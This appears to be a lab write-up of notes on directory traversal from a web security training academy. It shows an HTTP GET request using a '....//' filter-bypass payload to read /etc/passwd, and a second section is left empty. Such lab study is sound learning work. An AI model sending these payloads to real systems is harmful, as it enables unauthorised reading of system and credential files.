

# Directory Traversal

## File path traversal, traversal sequences stripped non-recursively

`../` gets filtered so we trick the applaction by submitting a get request like 
this:

``` 
GET /image?filename=....//....//....//....//etc/passwd HTTP/2
Host: 0afc0083049fe2ff877f7f5400b400a1.web-security-academy.net
```


## File path traversal, traversal sequences stripped with superfluous URL-decode


